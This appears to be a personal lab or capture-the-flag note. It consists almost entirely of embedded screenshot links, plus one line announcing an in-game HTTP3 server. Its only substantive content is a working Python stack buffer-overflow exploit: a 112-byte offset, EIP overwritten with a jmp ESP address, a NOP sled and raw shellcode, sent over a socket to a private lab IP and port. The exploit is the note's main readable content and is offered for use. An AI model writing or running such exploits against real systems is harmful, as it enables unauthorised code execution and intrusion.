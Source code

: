 
![[Pasted image 20230913162208.png]]
![[Pasted image 20230913163101.png]]

![[Pasted image 20230913162723.png]]
![[Pasted image 20230913162944.png]]
![[Pasted image 20230913163031.png]]
![[Pasted image 20230913163307.png]]
![[Pasted image 20230913164416.png]]
![[Pasted image 20230913164442.png]]
![[Pasted image 20230913165515.png]]
![[Pasted image 20230913165540.png]]
![[Pasted image 20230913165954.png]]
![[Pasted image 20230913170623.png]]
![[Pasted image 20230913170943.png]]
![[Pasted image 20230914123050.png]]
![[Pasted image 20230914123235.png]]
![[Pasted image 20230914123739.png]]

![[Pasted image 20230914133029.png]]
![[Pasted image 20230914133342.png]]
![[Pasted image 20230914133403.png]]
![[Pasted image 20230914133501.png]]
![[Pasted image 20230914133547.png]]

![[Pasted image 20230914134236.png]]
![[Pasted image 20230914134356.png]]
![[Pasted image 20230914134836.png]]
![[Pasted image 20230914135023.png]]
![[Pasted image 20230914135139.png]]
![[Pasted image 20230914135240.png]]
![[Pasted image 20230914135431.png]]
![[Pasted image 20230914135844.png]]
![[Pasted image 20230914135946.png]]
![[Pasted image 20230914140102.png]]
![[Pasted image 20230914141452.png]]
![[Pasted image 20230914141629.png]]
![[Pasted image 20230914142323.png]]
![[Pasted image 20230914142351.png]]
![[Pasted image 20230914142432.png]]
![[Pasted image 20230914142705.png]]
![[Pasted image 20230914142916.png]]
![[Pasted image 20230914143110.png]]
![[Pasted image 20230914143207.png]]
![[Pasted image 20231024105734.png]]
![[Pasted image 20231024105800.png]]
![[Pasted image 20231024112428.png]]
![[Pasted image 20231024112910.png]]
![[Pasted image 20231024114904.png]]
![[Pasted image 20231024114818.png]]![[Pasted image 20231024115515.png]]
![[Pasted image 20231024120403.png]]
![[Pasted image 20231024120439.png]]![[Pasted image 20231024120707.png]]
![[Pasted image 20231024121524.png]]![[Pasted image 20231024123805.png]]
![[Pasted image 20231024124235.png]]![[Pasted image 20231024124623.png]]
![[Pasted image 20231024125132.png]]![[Pasted image 20231024125232.png]]
![[Pasted image 20231024125621.png]]
![[Pasted image 20231024130037.png]]
i will bd using our new HTTP3 server at html://quic.naguini.hogwarts for further comunications
all debelopers are request to visit the server regulary for checking lastest announcements
![[Pasted image 20231024130103.png]]
![[Pasted image 20231024132419.png]]
![[Pasted image 20231024132900.png]]
![[Pasted image 20231024133702.png]]
![[Pasted image 20231024161121.png]]
![[Pasted image 20231024161404.png]]
![[Pasted image 20231025134810.png]]
![[Pasted image 20231025163503.png]]
![[Pasted image 20231025164844.png]]
![[Pasted image 20231025165150.png]]
![[Pasted image 20231025165223.png]]
![[Pasted image 20231101121725.png]]

![[Pasted image 20231101122003.png]]
![[Pasted image 20231109173316.png]]
![[Pasted image 20231109174738.png]]
![[Pasted image 20231109174754.png]]
![[Pasted image 20231110102820.png]]
![[Pasted image 20231110103338.png]]
![[Pasted image 20231110131016.png]]

![[Pasted image 20231110131042.png]]

![[Pasted image 20231114103219.png]]

![[Pasted image 20231114103511.png]]

![[Pasted image 20231114103701.png]]
![[Pasted image 20231114103723.png]]

![[Pasted image 20231114103916.png]]

![[Pasted image 20231114103858.png]]

![[Pasted image 20231114104102.png]]

![[Pasted image 20231114104121.png]]

![[Pasted image 20231114104949.png]]
![[Pasted image 20231114105029.png]]
![[Pasted image 20231114105207.png]]
![[Pasted image 20231114110657.png]]
![[Pasted image 20231114114610.png]]

![[Pasted image 20231114114634.png]]

![[Pasted image 20231114122045.png]]

![[Pasted image 20231114130903.png]]
![[Pasted image 20231114132324.png]]
![[Pasted image 20231114132602.png]]
![[Pasted image 20231114132845.png]]
![[Pasted image 20231114133251.png]]
![[Pasted image 20231114133642.png]]![[Pasted image 20231114134205.png]]

![[Pasted image 20231114140051.png]]
![[Pasted image 20231114140102.png]]
![[Pasted image 20231114140113.png]]
![[Pasted image 20231114140846.png]]
![[Pasted image 20231114141628.png]]
![[Pasted image 20231114142951.png]]
![[Pasted image 20231114143157.png]]
![[Pasted image 20231123114209.png]]![[Pasted image 20231123114311.png]]
![[Pasted image 20231123114703.png]]
![[Pasted image 20231123114728.png]]
![[Pasted image 20231123114936.png]]
![[Pasted image 20231123115118.png]]
![[Pasted image 20231123115532.png]]
![[Pasted image 20231123124540.png]]
![[Pasted image 20231123124920.png]]
![[Pasted image 20231123124942.png]]
![[Pasted image 20231123125120.png]]
![[Pasted image 20231123125331.png]]
![[Pasted image 20231123131403.png]]
![[Pasted image 20231123131816.png]]
![[Pasted image 20231123134836.png]]


import socket

offset = 112
before_eip = b"A" * offset

eip = b"\x55\x9d\x04\x08"  # 8049d55 -> jmp ESP

shellcode = b""
shellcode += b"\xbf\xf5\xf9\x13\x86\xda\xc2\xd9\x74\x24\xf4"
shellcode += b"\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x7a\x0e"
shellcode += b"\x03\x8f\xf7\xf1\x73\x5e\xd3\x01\x98\xf3\xa0"
shellcode += b"\xbe\x35\xf1\xaf\xa0\x7a\x93\x62\xa2\xe8\x02"
shellcode += b"\xcd\x9c\xc3\x34\x64\x9a\x22\x5c\xb7\xf4\x4c"
shellcode += b"\x04\x5f\x07\x6f\x35\x1b\x8e\x8e\x85\x3d\xc1"
shellcode += b"\x01\xb6\x72\xe2\x28\xd9\xb8\x65\x78\x71\x2d"
shellcode += b"\x49\x0e\xe9\xd9\xba\xdf\x8b\x70\x4c\xfc\x19"
shellcode += b"\xd0\xc7\xe2\x2d\xdd\x1a\x64"

after_eip = b"\x90" * 32 + shellcode  # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.153.156", 9898))
s.send(payload)

 Agregar un bucle infinito para mantener la conexión abierta
while True:
    data = s.recv(1024)
    if not data:
        break
    print(data.decode("utf-8"))

s.close()


![[Pasted image 20231123142700.png]]
![[Pasted image 20231123150302.png]]
![[Pasted image 20231123153652.png]]
![[Pasted image 20231123153830.png]]
![[Pasted image 20231123154053.png]]

![[Pasted image 20231123154247.png]]
![[Pasted image 20231123154348.png]]